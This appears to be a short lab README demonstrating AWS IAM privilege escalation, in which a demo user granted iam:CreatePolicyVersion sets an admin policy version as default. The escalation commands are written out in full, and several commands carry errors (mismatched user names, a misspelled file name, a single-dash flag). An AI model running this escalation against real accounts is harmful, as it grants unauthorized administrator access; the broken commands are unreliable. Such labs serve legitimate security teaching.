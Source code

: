 ## Introduction

- aws iam privilege escaltion
- expoliting create-policy-version [HERE](https://bishopfox.com/blog/privilege-escalation-in-aws)

## Create an Iam User

create an iam user (no aws console access)

```bash
aws iam create-user --user-name demo1
```

create an access key, take note the credentials returned

```bash
aws iam create-access-key --user-name cli-iam-demo
```

then configure aws profile

```bash
aws configure
```

## Create User Console Access

this is optinal

```bash
aws iam create-login-profile --generate-cli-skeleton > test.json
```

fill username and password into the temlate test.json and

```bash
aws iam create-login-profile --cli-input file://test.jon
```

## Apply a Policy to The User

allow the use to create new versions of policies

```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "PrivEsc1",
      "Effect": "Allow",
      "Action": "iam:CreatePolicyVersion",
      "Resource": "arn:aws:iam::*:policy/*"
    }
  ]
}
```

create a policy and take note the policy arn

```bash
aws iam create-policy \
  --policy-name AlloCreatePolicyVersion \
  --policy-document file://policy.json
```

attach

```bash
aws iam attach-user-policy \
  --user cli-iam-demo \
  --policy-arn $POLICY_ARN
```

## Priveldge Escalation

now the user upgrate their permission to admin

```bash
aws iam create-policy-version \
-policy-arn $POLICY_ARN \
--policy-document file://admin_policy.json \
--set-as-default
```

## Helper

this will create a template for the input parameters so you know what to provide

```bash
aws iam create-policy --generate-cli-json
```
